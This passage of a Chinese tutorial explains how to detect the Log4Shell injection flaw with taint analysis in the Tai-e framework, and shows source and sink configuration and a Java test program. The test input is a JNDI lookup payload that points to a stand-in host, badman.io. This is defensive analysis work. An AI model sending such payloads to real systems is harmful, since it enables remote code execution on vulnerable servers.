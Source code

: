 ## 0x03 如何分析 Log4Shell

#### 3a 设置 source 和 sink

Log4Shell 本质上是个注入漏洞（Injection），可通过污点分析（Taint Analysis）进行检测，该漏洞的入口方法、利用方法如下所示。

```plain
Logger.error(...)
            ⬇️
            ...
    JNDI Lookup
```

使用太阿提供的测试主程序：

```plain
import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;

public class Server {

    public static void main(String[] args) {
        Logger logger = LogManager.getLogger(Server.class);
        String input = getInput();
        logger.error(input);
    }

    private static String getInput() {
        return "${jndi:ldap://badman.io/Exploit}";
    }
}
```

Sources：标记为用户输入。污点数据来源于 Main 的 getInput() 方法，当系统调用该方法时获得污点数据。

```plain
sources:
- {kind: call, method: "<Main: java.lang.String getInput()>", index: result}
```

Sinks：对应的是 JNDI Lookup，在 log4j 中是调用 InitialContext 的 lookup() 方法来启动 JNDI 的 lookup，所以可以把 Sink 标记为 javax.naming.InitialContext.lookup(String) 。

```plain
sinks: 
- { method: "<javax.naming.InitialContext: java.lang.Object lookup(java.lang.String)>", index: 0}
```

污点分析要做的内容，就是找出 error 到 JNDI Lookup 的一条传播路径。

实践检测 Log4Shell 时遇到的挑战：

-   跨越 33 层方法调用
-   污点数据多次变换形态
-   过程涉及多种反射 API，也可能导致数据流追踪断掉

#### 3b 自创建测试项目
